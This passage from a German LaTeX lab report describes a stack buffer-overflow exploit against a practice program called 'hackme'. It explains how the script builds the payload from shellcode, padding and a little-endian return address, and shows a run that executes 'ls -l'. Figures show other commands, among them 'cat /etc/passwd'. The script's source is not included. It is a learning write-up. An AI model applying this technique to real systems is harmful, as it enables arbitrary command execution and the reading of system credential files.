Hier wird der Python Kommandozeilen-Interpreter genutzt, der durch das -c Flag eingeschaltet wird. Dieser führt den Code, der im nachfolgendem String steht aus. Hierbei wird der Shellcode selber plus ein Padding aus 'A's sowie der gewünschten Rücksprungadresse auf der Kommandozeile ausgegeben. Der Python Aufruf ist dabei selber wieder mit "\$()" umgeben. Dabei handelt es sich um sogenannte Command Substitution. Dabei wird der in den Klammer stehende Befehl ausgeführt und das Ergebnis an der jeweiligen Stelle eingefügt. Somit kann die Payload an hackme übergeben und somit der gewünschte Shellcode ausgeführt werden. 

% *****************************************************************
\subsubsection{Das Script}
% *****************************************************************
Die erlangten Erkenntnisse wurden im Skript \texttt{hack.py} zusammengeführt.

\lstinputlisting{Code/hack.py}

Das Skript benötigt zwei Argumente, nämlich einmal den \texttt{auszuführenden Befehl} und zum anderen die \texttt{Adresse} an die gesprungen werden soll, um den Shellcode auszuführen. Dies ist möglich, da \texttt{hackme} diese Adresse bereits ausgibt und sich aufgrund ausgeschaltetem ASLR eigentlich auch nicht mehr ändert.
\newline
Der Shellcode wurde als ein Docstring in der Datei hinterlegt (siehe Zeile 13-55). Zwei stellen werden dabei abhängig von den übergebenen Argumenten dynamisch angepasst. Das zu XORende Byte, um einen Null Terminator zu erhalten, hängt von der Länge des übergebenen Strings ab. Die Länge wird dabei einfach mit \textbf{len(string)} berechnet (siehe Zeile 9) und danach an der entsprechenden Stelle eingefügt (Z. 41).
\newline
Der auszuführende Befehl wird in Zeile 55 and den Shellcode mit angehängt.
\newline
Danach wird der Shellcode assembliert und in einen Hex-String, wie oben beschrieben, umgewandelt (siehe Zeile 58 - 83).
\newline
Im Anschluss wird die Payload zusammengesetzt, die sich aus Shellcode, Padding und Rücksprungadresse zusammensetzt. Da je nach Länge des Shellcodes unterschiedlich viel Padding benötigt wird, wird dieses in Z. 88 dynamisch berechnet.
\newline
In Zeile 93 bis 98, wird die Adresse in einen Hexadezimalstring umgewandelt. Dabei wird als erstes der \texttt{0x} Präfix entfernt (Z. 93). Danach wird der String in zweier Paare aufgeteilt, die in einer Liste gespeichert werden. Die liste wird dann umgedreht, da die Bytes aufgrund von Little-Endian in umgekehrter Reihenfolge übergeben werden müssen. Danach wird and jedes Paar ein hex-Präfix angehängt und die einzelnen Teile wieder zusammengefügt.
\newline
Schlussendlich wird dann mittels \texttt{os.system()}, hackme mit der Payload als Argument ausgeführt.

\begin{lstlisting}
./hack.py "ls -l" 0x7fffffffdd50
...
total 84
-rw-rw-r-- 1 tux tux   752 Jan  5 15:36 assembly.asm
-rwxrwxr-x 1 tux tux   489 Jan  5 11:45 convert.py
-rwxrwxr-x 1 tux tux    90 Jan  5 10:48 ding.sh
-rwxrwxr-x 1 tux tux   848 Jan  5 10:20 exec
...
\end{lstlisting}

Somit lassen sich nun beliebige Kommandos über hackme, mittels des Skripts ausführen.

% ----------------------------------------------------------------------------
\subsection{Weitere Beispiele}
% ----------------------------------------------------------------------------
\begin{figure}[h!]
	
\includegraphics[width=\textwidth]{Pictures/ls-a-t.png}
	\caption{ls -a -t /usr/bin}
	\label{fig:ls}
\end{figure}

\begin{figure}[h!]
	
\includegraphics[width=\textwidth]{Pictures/ps.png}
	\caption{ps ax}
	\label{fig:ps}
\end{figure}

\begin{figure}[h!]
	
\includegraphics[width=\textwidth]{Pictures/passwd.png}
	\caption{cat /etc/passwd}
	\label{fig:cat}
\end{figure}


\end{document}



%%% Local Variables: 
%%% TeX-PDF-mode: t
%%% TeX-master: t
%%% coding: utf-8
%%% mode: latex
%%% TeX-engine: xetex
%%% End: 
